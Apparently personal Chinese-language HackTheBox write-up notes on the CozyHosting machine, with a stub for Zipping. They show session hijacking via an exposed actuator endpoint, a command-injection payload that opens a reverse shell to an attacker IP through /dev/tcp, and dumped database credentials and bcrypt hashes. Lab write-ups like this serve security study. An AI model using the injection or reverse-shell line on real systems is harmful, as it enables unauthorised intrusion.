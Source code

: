 ## CozyHosting
#eASY #Linux

nmap 扫描端口

dirsearch 扫描目录

![](attachments/Pasted%20image%2020230910150836.png)

`http://cozyhosting.htb/actuator/sessions`

![](attachments/Pasted%20image%2020230910150903.png)

配置cookie登录，访问admin

![](attachments/Pasted%20image%2020230910151303.png)

host ：127.0.0.1
username: root

![](attachments/Pasted%20image%2020230910153419.png)

这里应该是命令执行 ssh


![](attachments/Pasted%20image%2020230910153533.png)

带有username和host的是`[-J [user@]host[:port]]`

```
;`(sh)0>/dev/tcp/10.10.16.8/9999`
exec >&0
```
![](attachments/Pasted%20image%2020230910164753.png)

script /dev/null -c bash 美化

![](attachments/Pasted%20image%2020230910164957.png)

python 将jar包下载

![](attachments/Pasted%20image%2020230910195809.png)


`psql "postgresql://postgres:Vg&nvzAQ7XxR@localhost/postgres"`

连接进入

![](attachments/Pasted%20image%2020230911075447.png)

```
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

## Zipping
#Linux #Medium
nmap没有扫到其他多余端口

dirseach扫描

![](attachments/Pasted%20image%2020230913102902.png)



![](attachments/Pasted%20image%2020230913102958.png)

